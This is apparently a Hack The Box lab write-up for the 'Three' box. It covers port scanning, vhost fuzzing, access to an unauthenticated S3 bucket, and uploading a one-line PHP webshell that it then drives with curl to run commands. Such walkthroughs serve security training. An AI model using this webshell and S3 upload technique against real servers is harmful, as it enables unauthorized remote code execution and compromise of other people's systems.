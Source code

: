 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="../../tools/web/dirbusting/gobuster.md">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a>, <a href="../../tools/web/curl.md">curl</a>, <a href="../../tools/text/jq.md">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](../../tools/port-scanners/nmap.md).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><img src="../../.gitbook/assets/three_contact.png" alt=""><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.

{% code overflow="wrap" %}
```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```
{% endcode %}

### Fuzzing

Next, we can start our [fuzzing](../../tools/web/dirbusting/) scans. We will check for potential subdirectories, subdomains, and vhosts.

{% code overflow="wrap" %}
```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
{% endcode %}

The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><img src="../../.gitbook/assets/three_vhosts.png" alt=""><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../tools/web/cloud/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><img src="../../.gitbook/assets/three_aws_listings.png" alt=""><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](../../tools/shells/webshells.md#php), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><img src="../../.gitbook/assets/three_webshell.png" alt=""><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../tools/crypto.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><img src="../../.gitbook/assets/three_flag.png" alt=""><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
